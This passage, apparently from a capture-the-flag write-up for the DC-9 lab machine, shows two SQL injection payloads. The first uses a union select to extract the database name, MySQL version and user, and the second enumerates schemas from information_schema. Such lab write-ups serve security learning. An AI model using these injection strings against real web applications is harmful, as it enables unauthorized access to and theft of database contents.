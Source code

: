 **Extracting data from the Database**

We started discovering the current database that's using the web application, the current version of MySQL and the user being used for the database connection.

``` bash
Mary' and 1=2 union select database(),@@version,null,user(),null,null #
```

![](/assets/images/DC-9/screenshot-4.png)

After we enumerate the available databases with the following statement:

``` bash
Mary' and 1=2 union select schema_name,null,null,null,null,null from information_schema.schemata #
```

![](/assets/images/DC-9/screenshot-5.png)
